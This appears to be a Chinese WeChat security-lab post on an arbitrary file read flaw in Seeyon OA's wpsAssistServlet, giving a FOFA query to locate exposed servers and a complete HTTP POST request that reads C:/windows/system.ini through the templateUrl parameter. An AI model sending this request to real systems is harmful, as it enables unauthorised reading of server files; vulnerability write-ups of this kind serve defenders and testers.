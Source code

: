 #  致远OA wpsAssistServlet 任意文件读取

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 22个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

致远OA wpsAssistServlet 接口存在任意文件读取漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

app="致远互联-OA"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

templateUrl参数存在任意文件读取漏洞，可以读取系统文件。

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /seeyon/wpsAssistServlet HTTP/1.1Host: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36Connection: closeContent-Length: 47Accept: text/css,*/*;q=0.1Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Content-Type: application/x-www-form-urlencoded  
    flag=template&templateUrl=C:/windows/system.ini

漏洞存在响应包如下。  

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：致远OA1原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创创原创原创  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

